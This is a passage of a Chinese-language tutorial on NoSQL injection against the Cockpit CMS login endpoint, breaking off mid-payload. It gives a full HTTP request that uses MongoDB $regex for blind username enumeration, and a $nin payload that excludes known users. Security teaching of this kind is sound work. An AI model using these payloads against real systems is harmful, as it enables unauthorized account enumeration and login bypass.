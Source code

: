 其中`<options>`是模式修正符，在MongoDB中包含`i`，`m`，`x`和`s`四个选项。

我们可以用`$regex`进行盲注，来猜测用户名，比如：

```
POST /cockpit/auth/check HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 169
Connection: close

{
    "auth":{
        "user":{
            "$regex": "a.*"
        },
        "password":[
            0
        ]
    },
    "csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```

![5](nosql注入.assets/5.png)

说明用户名以`a`开头的用户存在。

`"$regex": "ab.*"`：

![6](nosql注入.assets/6.png)

以`ab`开头的用户不存在，那返回的信息自然是**User not found**。

### $nin

`$nin`表示查询时不匹配数组中的值，语法：

```
{
    field: { $nin: [ <value1>, <value2>, ..., <valueN> ] }
}
```

payload：

```
{
    "auth":{
        "user":{
            "$nin": [
                "admin",
                "Poseidon",
                "Sirens"
            ],
            "$regex": "Co.*"
        },
        "password":[
            0
        ]
    },
```